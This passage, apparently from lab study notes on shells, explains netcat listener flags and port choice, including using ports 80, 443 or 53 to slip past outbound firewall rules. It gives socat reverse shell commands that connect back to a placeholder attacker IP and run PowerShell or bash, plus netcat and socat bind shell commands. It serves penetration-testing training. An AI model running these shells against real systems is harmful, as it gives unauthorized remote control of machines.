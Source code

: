 * **-l** is used to tell netcat that this will be a listener
* **-v** is used to request a verbose output
* **-n** tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
* **-p** indicates that the port specification will follow.

Realistically you could use any port you like, as long as there isn't already a service using it. Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

A working example of this would be:

```sh
sudo nc -lvnp 443
```

We can then connect back to this with any number of payloads, depending on the environment on the target.

### Socat

Here's the syntax for a basic reverse shell listener in socat:

```sh
socat TCP-L:<port> -
```

On Windows we would use this command to connect back:

```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
This is the equivalent command for a Linux Target:

```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind Shells

#### Netcat

If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward:

```sh
nc <target-ip> <chosen-port>
```

Here we are using netcat to make an outbound connection to the target on our chosen port.

### Socat

On a Linux target we would use the following command:

```sh
socat TCP-L:<PORT> EXEC:"bash -li"
```
